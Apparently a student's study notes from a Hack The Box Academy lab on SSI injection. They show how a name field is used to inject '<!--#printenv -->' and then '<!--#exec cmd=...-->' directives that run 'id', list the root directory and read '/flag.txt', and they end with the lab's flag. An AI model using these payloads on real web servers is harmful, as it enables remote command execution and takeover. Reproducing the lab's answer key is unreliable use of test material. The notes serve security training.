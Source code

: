 ```yaml
---
sticker: lucide//server-off
---
```


# Exploiting SSI Injection

Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

***

### Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to `/page.shtml`, which displays some general information:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of `<!--#printenv -->`. This results in the following page:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the `exec` directive by providing the following username: `<!--#exec cmd="id" -->`

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

## Question

![](Pasted%20image%2020250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![](Pasted%20image%2020250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![](Pasted%20image%2020250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![](Pasted%20image%2020250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
